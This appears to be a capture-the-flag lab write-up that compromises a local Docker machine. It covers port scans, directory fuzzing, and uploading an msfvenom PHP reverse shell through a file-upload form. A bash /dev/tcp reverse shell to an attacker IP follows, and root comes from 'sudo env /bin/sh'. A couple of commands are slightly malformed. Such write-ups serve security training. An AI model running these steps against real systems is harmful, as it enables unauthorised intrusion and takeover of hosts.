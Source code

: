 
![Pasted image 20250205134718](https://github.com/user-attachments/assets/c559485b-954b-4aaa-b2c9-78db12544ae2)

We test the connection with the victim machine

```bash
ping -c 1 172.17.0.2
```
![image](https://github.com/user-attachments/assets/ca42314b-8c8c-4636-8527-5ec06a9783e6)

    ttl =64 ==> linux OS

As the victim machine is within reach, we will send a request for a response with the ports that are open.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
![image](https://github.com/user-attachments/assets/cb381a7f-8e0f-4e96-83b5-09b4d86167f5)

    -oG AllPorts = save the output in the AllPorts file.

Now we launch a port scan

```bash
nmap -sCV -p80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/be9abb3a-7a49-42e6-94d0-7993b2212504)

With this we only conclude that our attack will focus only on port 80 which is the web page, so we will analyze it.

![image](https://github.com/user-attachments/assets/d60cf894-e4d3-41c4-be9a-1bb7dac9ae1c)

It is a simple website to upload files and store them so we will upload test files to see what formats it accepts.

![image](https://github.com/user-attachments/assets/11ec69e4-ae17-42ea-992f-578f6ac82d21)
![image](https://github.com/user-attachments/assets/6fc481b1-b4d8-40fe-a6c6-b72f6366251f)
![image](https://github.com/user-attachments/assets/bb387ee1-c8a5-4c22-9d4d-53a600cb5005)
![image](https://github.com/user-attachments/assets/fdcaa1af-ce50-4426-82a0-024d6d5ffbdd)

We have managed to upload the files but we do not know where they are so we will apply fuzzing to discover new directories.
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/4cb06ba9-d0a3-44d3-8c88-542e7cafb43e)
![image](https://github.com/user-attachments/assets/b99a440d-9023-4202-9584-f063d335b13a)

As we can see we find the destination where our files are stored, so if we can upload a malicious file to get a revershell we could have access to the machine.
```bash
msfvenom -p php/reverse_php LHOST=192.168.1.228=443 -f raw >ARCHIVO_NEW.php
```
![image](https://github.com/user-attachments/assets/7492d350-4877-40bd-a8f8-109315f00545)
![image](https://github.com/user-attachments/assets/c313d3ae-14aa-4676-8aca-9f3daedcb7fd)

We will upload our malicious file

![image](https://github.com/user-attachments/assets/76debd5b-3d09-4248-b8be-841cb1454b39)
![image](https://github.com/user-attachments/assets/608e6707-f2fd-49b9-a47e-3f74d27c12b6)

we go into listening mode

![image](https://github.com/user-attachments/assets/8a99c7f9-9376-45f2-9c6a-dba95150719b)

we open our malicious file

![image](https://github.com/user-attachments/assets/1b72181e-44c5-4d1a-bf28-54c93568d82c)

we have conexion!!!

![image](https://github.com/user-attachments/assets/03b641b6-97cd-4fc6-96db-941fd855c6ec)

To stabilize the connection we will send the traffic to another of our ports.
```bash
nc nlvp 444
```
![image](https://github.com/user-attachments/assets/8ef08de8-fa7f-4353-b569-5468cebabdaf)


```bash
bash -c "sh -i >& /dev/tcp/192.168.1.228/444 0>&1"
```
![image](https://github.com/user-attachments/assets/d671a70c-f134-40f5-b447-2fe1407e95d4)

We already have a new connection

![image](https://github.com/user-attachments/assets/ccc3cd25-5388-4e40-b689-58111ec9aa1c)

now we will make a treatment of the tty

```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
Finally we have a treated and stabilized tty

![image](https://github.com/user-attachments/assets/7618d11b-74e2-4a92-b1b8-c845616ac316)

Now we will escalate privileges

```bash
sudo -l
```
![image](https://github.com/user-attachments/assets/89003549-6cc4-405f-9eb1-0aec574ae83c)
![image](https://github.com/user-attachments/assets/f8135744-7786-4d69-876f-bcc989e65687)

```bash
sudo env /bin/sh
```
![image](https://github.com/user-attachments/assets/6d04adb6-8c59-495c-a212-fcac90a68b28)





